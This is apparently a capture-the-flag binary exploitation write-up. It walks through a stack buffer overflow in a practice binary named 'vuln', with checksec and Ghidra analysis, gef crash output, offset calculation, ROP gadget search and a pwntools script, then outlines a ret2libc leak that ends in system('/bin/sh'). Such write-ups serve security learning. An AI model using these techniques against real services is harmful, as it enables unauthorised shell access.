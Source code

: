 
# Binary exploitation
I did a few sanity check before starting the exploit.  
Required dynamic libs
```bash
ldd libc.so.6
# Result
/lib64/ld-linux-x86-64.so.2 (0x00007f0684ec5000)
linux-vdso.so.1 (0x00007ffd4d363000)
```
Libc version
```bash
strings libc.so.6 | grep version
GNU C Library (Ubuntu GLIBC 2.27-3ubuntu1.2) stable release version 2.27.
```
Set the provided dynamic linker as elf interpeter 
```bash
patchelf --set-interpreter ./ld-2.27.so  ./vuln`
```
For elf hardenning check I used [checksec](https://github.com/slimm609/checksec.sh)
```bash
checksec --file=vuln
```

| RELRO  | STACK CANARY | NX | PIE | RPATH | RUNPATH | Symbols | FORTIFY Fortified |  Fortifiable | FILE |
|--|--|--|--|--|--|--|--|--|--|
| Partial RELRO | No canary found | NX enabled | No PIE | No RPATH | RW-RUNPATH | 68 Symbols|No|0|0|vuln|

No canary found. Thanks god.

Openning vuln with ghidra I can see that main function calls `do_stuff()` at the end
```C
void do_stuff(void){
  char cVar1;
  undefined local_89;
  char local_88 [112];
  undefined8 local_18;
  ulong local_10;
  
  local_18 = 0;
  __isoc99_scanf("%[^\n]",local_88);
  __isoc99_scanf("%c",&local_89);
  for (local_10 = 0; local_10 < 100; local_10 = local_10 + 1) {
    cVar1 = convert_case((int)local_88[local_10],local_10);
    local_88[local_10] = cVar1;
  }
  puts(local_88);
  return;
}
```
This function screams buffer overflow.

For advanced debugging I used gef. Lets run the program with buffer overflow and see what happens.
```

Program received signal SIGSEGV, Segmentation fault.
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x7a
$rbx   : 0x0
$rcx   : 0x007ffff7af4264  →  0x5477fffff0003d48 ("H="?)
$rdx   : 0x007ffff7dd18c0  →  0x0000000000000000
$rsp   : 0x007fffffffdaf8  →  "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
$rbp   : 0x6161616161616161 ("aaaaaaaa"?)
$rsi   : 0x007ffff7dd07e3  →  0xdd18c0000000000a ("\n"?)
$rdi   : 0x1
$rip   : 0x00000000400770  →  <do_stuff+152> ret
$r8    : 0x79
$r9    : 0x0
$r10   : 0x0
$r11   : 0x246
$r12   : 0x1b
$r13   : 0x0
$r14   : 0x1b
$r15   : 0x0
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x007fffffffdaf8│+0x0000: "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"      ← $rsp
0x007fffffffdb00│+0x0008: "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
0x007fffffffdb08│+0x0010: "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
0x007fffffffdb10│+0x0018: "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
0x007fffffffdb18│+0x0020: "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
0x007fffffffdb20│+0x0028: "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
0x007fffffffdb28│+0x0030: "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
0x007fffffffdb30│+0x0038: "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400769 <do_stuff+145>   call   0x400540 <puts@plt>
     0x40076e <do_stuff+150>   nop
     0x40076f <do_stuff+151>   leave
 →   0x400770 <do_stuff+152>   ret
[!] Cannot disassemble from $PC
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x400770 in do_stuff (), reason: SIGSEGV
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x400770 → do_stuff()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
0x0000000000400770 in do_stuff ()
gef➤
```
So rsp overidden with aaaa.... 
Now, let's determine the number of characters we need to overflow in order to precisely override rsp. To find the exact offset of rsp, we can use a unique pattern that allows us to trace the stack memory.  
```bash
gef➤  pattern create 200
[+] Generating a pattern of 200 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa
```

Using gef I can get the offset of rsp
```bash
gef➤  pattern offset $rsp
# This give me the following
[+] Found at offset 136 (little-endian search) likely
```
By using gef, you can observe the loaded libc functions in memory. To do this, you first need to run the program so that the loader can search for and load all symbols into memory. Then, use the 'vm' command to view the memory addresses.

![](./assets/1.png)

However, enabling ASLR will cause the addresses of the library and stack to change with each run.
```
aslr on
```

To clarify, we must calculate the offset of libc functions at runtime. During my search for how to accomplish this, I came across an intriguing idea. The .got.plt section contains a pointer to a pointer to scanf. I can also verify the compiled offset of scanf in libc.

The only way to retrieve this type of data is to print it, which led me to a new technique called Return Oriented Programming (ROP) that I was previously unfamiliar with. Although I won't dive into the details here, I will say that by placing addresses of specific instructions from the binary on the stack (rip), we can construct an entirely new logic.

For my initial "hello world" attempt, I aimed to locate a string address and print it using buffer overflow and ROP. However, before proceeding, we must first identify our ROP gadget.
```bash
# Why rdi? due to x86-64 this is the first reg to be popped.
ROPgadget --binary vuln | grep rdi

0x00000000004006c9 : and bl, ch ; or cl, byte ptr [rdi] ; mov dh, 0x45 ; cld ; jmp 0x4006d6
0x00000000004006cb : or cl, byte ptr [rdi] ; mov dh, 0x45 ; cld ; jmp 0x4006d6
0x00000000004006c2 : or dword ptr [rdi], ecx ; mov dh, 0x45 ; cld ; add eax, 0x20 ; jmp 0x4006d6
0x0000000000400913 : pop rdi ; ret # I'll use this one.
0x00000000004006c8 : shl byte ptr [rax], 0xeb ; or cl, byte ptr [rdi] ; mov dh, 0x45 ; cld ; jmp 0x4006d6
```

Now let's find a random string to print using ghidra.
![](./assets/2.png)


```python
import pwn

p = pwn.process('./vuln')
offset = 136
junk = b'A'*offset
pop_rdi = 0x400913
string_example = 0x400402
puts_in_plt = 0x400540

pyload = [
    junk,
    pwn.p64(pop_rdi),
    pwn.p64(string_example),
    pwn.p64(puts_in_plt),   
]
p.sendline(b"".join(pyload))

p.interactive()
```
That worked!
![](./assets/3.png)

The steps to achieve our goal are straightforward:

1. Select a libc function (e.g. scanf) and obtain its compiled offset.
![](./assets/4.png)
`0x7b0b0`
2. Print the actual address of scanf using the same method.
3. Subtract the offset from the actual address to obtain the base address of libc.
4. Add the system offset to the base address of libc to obtain the actual address of system.
5. call system with /bin/sh
![](./assets/5.png)

Few more notes

Unfortunately, I learned the hard way that Ghidra loads with a base address. Therefore, a more effective approach to finding the string address is to.
    ```bash
    strings -tx libc.so.6 | grep "/bin/sh"
    ```
    which is `0x1b40fa`
It also seems like scanf address is different from the one I found in readelf, so I used another function from GOT.

I have attached the Python script in this folder for your reference.

Thank you for reading.
